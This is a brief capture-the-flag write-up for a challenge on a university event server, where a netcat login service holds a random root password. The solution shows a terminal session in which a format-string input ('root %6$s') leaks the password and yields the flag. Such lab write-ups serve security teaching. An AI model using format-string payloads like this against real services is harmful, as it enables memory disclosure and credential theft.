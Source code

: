 ### Chal Desc: 

root has a random password. Find the password to get the file.

$ nc cybersecweek.ua.pt 2012

#### Soln:
Format string Vuln to leak the password. We have to brute force the location to print out the flag

```python
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/downloads$ nc cybersecweek.ua.pt 2012
Generating Random Pass...Done
User: abc
abc

Invalid user

^Z
[8]+  Stopped                 nc cybersecweek.ua.pt 2012
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/downloads$ nc cybersecweek.ua.pt 2012
Generating Random Pass...Done
User: root %6$s
root 2xjYV4fTq2cDJxAe

Pass: 2xjYV4fTq2cDJxAe
CTFUA{-_printf_is_not_print_-}
```

Thank you
